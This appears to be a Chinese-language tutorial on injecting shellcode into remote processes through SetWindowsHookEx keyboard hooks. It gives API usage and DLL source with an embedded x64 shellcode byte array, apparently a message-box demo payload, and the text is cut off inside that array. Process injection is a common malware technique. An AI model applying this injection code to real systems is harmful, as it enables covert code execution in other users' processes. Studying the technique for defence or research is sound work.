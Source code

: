 # 0x01 API 解析

看到了很多关于钩子注入 `Hook inject` 的文章，但主要是 DLL 注入。本文将尝试实现通过 Hooking 技术在远程进程中注入 Shellcode。

主要使用的是 `SetWindowsHookEx` 这个 API。

> SetWindowsHookEx 用于将应用程序定义的挂钩过程安装到挂钩链中。您将安装一个挂钩过程来监视系统中的某些类型的事件。这些事件与特定线程或与调用线程在同一桌面上的所有线程相关联。

```
HHOOK SetWindowsHookEx(
  int       idHook,
  HOOKPROC  lpfn,
  HINSTANCE hmod,
  DWORD     dwThreadId
);
```

调用示例：

```
HMODULE library = LoadLibraryA("dllhook.dll");
HOOKPROC hookProc = (HOOKPROC)GetProcAddress(library, "spotlessExport");
HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, hookProc, library, 0);
```

可以看到**第二个参数** `HOOKPROC lpfn` 是指向钩子程序的指针。在这里所谓的钩子程序的具体内容是：

```
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
	case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

extern "C" __declspec(dllexport) int spotlessExport() {
	unsigned char shellcode[] =
		"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41\x51"
		"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x3e\x48"
		"\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48"
		"\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
		"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e"
		"\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88"
		"\x00\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48"
		"\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
		"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41"
		"\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24"
		"\x08\x45\x39\xd1\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0"
		"\x66\x3e\x41\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
		"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
		"\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
		"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7\xc1"
		"\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e\x4c\x8d"
		"\x85\x33\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
		"\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
		"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
		"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x59\x6f\x75\x20\x68"
		"\x61\x76\x65\x20\x62\x65\x65\x6e\x20\x68\x61\x63\x6b\x65\x64"
```